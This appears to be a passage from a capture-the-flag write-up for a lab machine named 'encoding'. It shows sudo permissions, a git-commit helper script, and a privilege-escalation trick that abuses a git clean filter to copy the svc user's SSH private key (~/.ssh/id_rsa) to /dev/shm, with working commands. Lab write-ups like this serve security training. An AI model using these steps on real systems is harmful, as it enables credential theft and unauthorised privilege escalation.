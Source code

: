 ```bash
sudo -l

Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
www-data@encoding:~/image/actions$ cat /var/www/image/scripts/git-commit.sh

cat /var/www/image/scripts/git-commit.sh

#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```

- The `echo '*.php filter=indent' > .git/info/attributes` command sets up a Git repository in the `/var/www/image` directory, and adds a `filter` attribute for files ending with `.php` in the `.git/info/attributes` file. This `filter` attribute is set to use the `indent` script, which will be executed on files when they are committed to the repository.
- When the `git-commit.sh` script is run with `sudo -u svc /var/www/image/scripts/git-commit.sh`, it checks for any new files in the working directory (`/var/www/image`) that are not already tracked by Git. If any new files are found, the script runs `git add -A` to add all new and modified files to the Git staging area. Since the `filter` attribute is set for files ending in `.php`, the `indent` script is executed on all `.php` files before they are added to the Git staging area.
- Since the `indent` script is set to execute `/tmp/readkey`, and the output of `/tmp/readkey` is redirected to `/dev/shm/key`, the private key will be output to `/dev/shm/key` every time a `.php` file is committed to the repository. Therefore, the private key will be available at `/dev/shm/key` for anyone with read permissions on the system.

```bash
echo "cat ~/.ssh/id_rsa > /dev/shm/key" > /tmp/readkey
chmod +x /tmp/readkey

cd /var/www/image
git init
echo '*.php filter=indent' > .git/info/attributes
git config filter.indent.clean /tmp/readkey
sudo -u svc /var/www/image/scripts/git-commit.sh
ls /dev/shm
cat /dev/shm/key
```
